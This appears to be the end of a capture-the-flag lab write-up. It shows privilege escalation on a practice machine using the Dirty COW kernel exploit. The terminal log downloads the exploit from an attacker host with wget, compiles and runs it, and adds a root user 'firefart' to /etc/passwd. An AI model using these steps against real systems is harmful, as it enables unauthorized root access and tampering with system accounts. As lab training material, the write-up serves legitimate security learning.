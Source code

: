 ### Privilege Escalation #3

The last privesc I'll show here is the classic kernel exploit dirty cow. A nice high level summary of the exploit can be found at https://dirtycow.ninja/

LinPeas to save the day once again finds that it is 'highly probable' the target is vulnerable to dirty cow:

![dc.png](../assets/valentine_assets/dc.png)

This exploit creates a new user firefart (such a beautiful, poetic name...) with root permissions. All we need to do is create a password (here I just used the password `pass`) for the new root user and issue `su - firefart` and we get root access to the box. We can exploit it with:

```text
hype@Valentine:/tmp$ whoami
hype
hype@Valentine:/tmp$ wget http://10.10.14.40/dirtycow.c
--2023-07-26 09:03:30--  http://10.10.14.40/dirtycow.c
Connecting to 10.10.14.40:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `dirtycow.c'

100%[===================================================================================>] 4,814       --.-K/s   in 0s      

2023-07-26 09:03:30 (220 MB/s) - `dirtycow.c' saved [4814/4814]

hype@Valentine:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
hype@Valentine:/tmp$ chmod +x dirty
hype@Valentine:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fijI1lDcvwk7k:0:0:pwned:/root:/bin/bash

mmap: 7fbebc938000
^C
hype@Valentine:/tmp$ su - firefart
Password: 
firefart@Valentine:~# whoami
firefart
firefart@Valentine:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@Valentine:~#
```

And that's that! Thank you for following along!

-Ryan

----------------------------------------------------------------------------
